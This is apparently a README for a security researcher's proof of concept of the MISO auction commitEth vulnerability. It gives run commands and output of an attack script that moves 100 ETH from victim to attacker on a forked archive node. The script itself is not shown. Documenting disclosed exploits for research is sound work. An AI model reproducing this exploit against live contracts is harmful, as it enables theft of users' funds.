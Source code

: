 # MISO

## How to run

Install brownie first

Set up the environment variable for $ARCHIVENODE_TOKEN

```
export $ARCHIVENODE_TOKEN = xxxxx
sh start_archive.sh

then 

sh run.sh
```

```
Running 'scripts/attack.py::main'...
Attacker balance before commitEth: 100.000000000000000000
Victim balance before commitEth: 112666.020243246720000000

Attacker balance after commitEth: 200.000000000000000000
Victim balance after commitEth: 112566.020243246720000000
```



## link 

https://www.paradigm.xyz/2021/08/two-rights-might-make-a-wrong/

https://etherscan.io/address/0x4c4564a1FE775D97297F9e3Dc2e762e0Ed5Dda0e#code

## Credit

This PoC is developed by Yajin Zhou of the BlockSec team.
